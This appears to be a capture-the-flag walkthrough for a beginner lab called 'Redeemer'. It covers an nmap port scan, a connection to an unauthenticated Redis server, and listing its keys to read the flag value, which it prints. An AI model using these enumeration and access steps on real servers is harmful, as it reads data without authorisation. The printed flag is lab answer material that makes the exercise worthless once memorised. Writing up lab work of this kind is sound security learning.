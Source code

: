 # Redeemer

# TL;DR

- We connect to the redis server running on the target maching, enumerate the database and retrieve the flag.

# Enumeration

- `ping 10.129.22.160` : to test if the server us up and running.
- We scan the host to determine running services:
```
nmap -p- -sV 10.129.22.160
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-28 06:40 PST
Nmap scan report for 10.129.22.160
Host is up (0.089s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.18 seconds
```
- From the scan we find `redis` service running on port `6379/tcp`.

# Foothold

 - We can connect to the redis service using `netcat` or the `redis-cli`. We can install the `redis-cli` with the following command incase it does not already exist on our local host: `sudp apt install redis-tools`
 - We can see the flags that can be used with the cli with the following command: `redis-cli --help`.
 - We can run the following command to connect to the server:
```
redis-cli -h 10.129.22.160    
10.129.22.160:6379>
```
- Once connect to the server we can run `info` to get information about what the redis server contains:
```
10.129.22.160:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0

[**SNIP**]

# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
- From the output above we find out that the redis server contains only `one database` at `index 0` and that database contains `4 keys`.
- We can select the database with the following command: `select 0`:
```
10.129.22.160:6379> select 0
OK
```
- Once the database is selected we can display all the keys with `keys *`:
```
10.129.22.160:6379> keys *
1) "numb"
2) "temp"
3) "flag"
4) "stor"
```
- We can view the value of each key by running `get <key>` and get the value of the flag:
```
0.129.22.160:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"
10.129.22.160:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"
10.129.22.160:6379> get stor
"e80d635f95686148284526e1980740f8"
10.129.22.160:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```